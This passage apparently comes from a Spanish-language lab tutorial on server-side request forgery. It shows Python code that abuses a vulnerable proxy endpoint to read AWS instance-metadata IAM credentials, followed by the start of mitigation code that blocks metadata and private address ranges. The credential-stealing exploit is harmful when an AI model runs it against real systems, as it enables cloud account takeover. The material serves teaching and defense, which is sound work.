 ```python
    # Intentar obtener nombre del rol IAM
    payload = {
        "url": f"{metadata_base}iam/security-credentials/"
    }

    response = requests.post(vulnerable_endpoint, json=payload)

    if response.status_code == 200:
        role_name = response.text.strip()
        print(f"[!] Rol IAM encontrado: {role_name}")

        # Obtener credenciales
        payload = {
            "url": f"{metadata_base}iam/security-credentials/{role_name}"
        }

        response = requests.post(vulnerable_endpoint, json=payload)
        credentials = response.json()

        print(f"[!] Credenciales obtenidas:")
        print(f"    AccessKeyId: {credentials['AccessKeyId']}")
        print(f"    SecretAccessKey: {credentials['SecretAccessKey'][:20]}...")
        print(f"    Token: {credentials['Token'][:50]}...")

        return credentials

    return None

# SOLO PARA EDUCACIÓN - NO USAR EN SISTEMAS REALES
if __name__ == '__main__':
    print("[!] ADVERTENCIA: Solo para uso educativo en laboratorio")
    # simulate_ssrf_attack("http://localhost:8080/proxy")
```

#### Paso 3: Implementar Mitigaciones

**Código para prevenir SSRF:**
```python
#!/usr/bin/env python3
"""
Implementación de protección contra SSRF
"""

import ipaddress
import urllib.parse

BLOCKED_IPS = [
    ipaddress.ip_network('169.254.169.254/32'),  # AWS metadata
    ipaddress.ip_network('127.0.0.0/8'),         # Localhost
    ipaddress.ip_network('10.0.0.0/8'),          # Private
    ipaddress.ip_network('172.16.0.0/12'),       # Private
    ipaddress.ip_network('192.168.0.0/16'),      # Private
]

def is_safe_url(url):
    """
    Verifica si una URL es segura para hacer requests
    """
    try:
        parsed = urllib.parse.urlparse(url)

        # Verificar esquema
        if parsed.scheme not in ['http', 'https']:
            return False, "Esquema no permitido"
```
